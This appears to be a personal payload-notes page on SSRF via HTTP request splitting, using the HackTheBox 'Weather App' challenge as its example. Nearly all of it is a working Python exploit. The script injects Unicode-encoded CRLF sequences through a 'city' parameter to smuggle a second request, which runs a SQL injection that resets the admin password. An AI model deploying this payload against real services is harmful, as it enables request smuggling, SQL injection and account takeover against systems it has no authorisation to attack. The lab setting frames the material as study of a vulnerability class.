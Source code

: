 ```yaml
---
title: SSRF via Request Splitting
sidebar: mydoc_sidebar
permalink: ssrf-via-request-splitting.html
folder: Payloads
---
```


Need to read:
- <https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>
- <https://blog.d3s34.me/weather-app>

Example: HTB - Weather App

Payload

```python
import requests

CRLF = "\u010D\u010A"
SPACE = "\u0120"

SQLi = f"username=admin&password=1') on conflict(username) do update set password='123';-- -"\
    .replace(" ", SPACE)\
    .replace("'", "%27")

payload =   f"{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"{CRLF}"\
            \
            f"POST{SPACE}/register{SPACE}HTTP/1.1{CRLF}"\
            f"Host:{SPACE}127.0.0.1{CRLF}"\
            f"Content-Length:{SPACE}{len(SQLi)}{CRLF}"\
            f"Content-Type:{SPACE}application/x-www-form-urlencoded{CRLF}"\
            f"{CRLF}"\
            f"{SQLi}{CRLF}"\
            f"{CRLF}" \
            \
            f"GET{SPACE}/"

url = 'http://68.183.36.105:31623/api/weather'
data = {"endpoint":"127.0.0.1",
        "city":"Hanoi" + payload,
        "country":"VN"}

x = requests.post(url, data = data)

print(x.text)
```
